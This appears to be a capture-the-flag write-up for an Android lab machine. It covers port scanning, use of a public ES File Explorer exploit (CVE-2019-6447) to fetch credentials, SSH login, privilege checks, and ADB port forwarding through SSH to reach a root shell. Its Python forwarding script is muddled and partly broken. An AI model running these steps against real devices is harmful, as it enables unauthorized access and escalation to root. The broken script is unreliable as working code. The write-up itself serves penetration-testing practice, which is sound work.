 ### Box Info
OS: Android
IP: 10.10.10.247

## Part 1 

### Skills learned:
Curl/Python
Andriod OS + tools

### Enum
nmap -p- -A -oN Exploreprts.txt ${IP}
+ 2222 SimplSSH
+ 5555 Andriod Debug bridge
+ 42135 ES File explorer
+ 59777 Bukkit JSONAPI
+ 44233 fingerprint-strings

### Search
Yields CVE-2019-6447
+ https://github.com/fs0c131y/ESFileExplorerOpenPortVuln
+ https://www.exploit-db.com/exploits/50070

### Step 1
+python3 poc.py ${cmd} ${IP} 
+ python3 poc.py ${cmd} ${IP} $dir/$.jpg
+ [+] Done. Saved as 'out.dat'.

Now that you have downloaded the file, open the URL in a browser.
+ ${IP}:59777/$dir/$.jpg
+ File gives UN && PW

### Step 2
+ ssh -p 2222 $UN@${IP} 
+ ${PW}

### Info gathering
+ :/whoami
u0_a76
+ :/uname -a 
Linux localhost 4.9.214-android-x86_64-g04f9324 #1 SMP PREEMPT Wed Mar 25 17:11:29 CST 2020 x86_64
+ :/find / -perm /6000 2>/dev/null
/system/xbin/procmem
/system/xbin/su
+ :/ $ id
uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768

### Find Flag
Have fun searching! 

## Part 2

### Skills learned
ssh port forwarding
adb tool

### Install tools:
adroid-tools-adb

### Port forwarding script.py:
///import socket # socket
///import subprocess  # Subprocess
///import pyautogui  # PyAutoGui
///import time  # Time
///
///def connection_function(host, port):
///    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
///    s.connect((host, port))
///    print(s.recv(1024))
///
///connection_function("${IP}", 2222)
///
///def adb_connection(host, port):
///   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
///    s.connect((host, port))
///    print(s.recv(1024))
///
///    subprocess.call(['ssh -p 2222 -L 5555:localhost:5555 kristi@${IP}'], shell=True)
///    password = "[PASSWORD OF TARGET MACHINE OF SSH]"
///    print(s.recv(1024))
///   
///adb_connection("${IP}", 2222)

### Start port-forwarding server
+ adb start-server
+ adb connect localhost:5555
+ adb devices

### Initiate root shell:
+ adb -s localhost:5555 shell

### Find root Flag!
Happy searching!
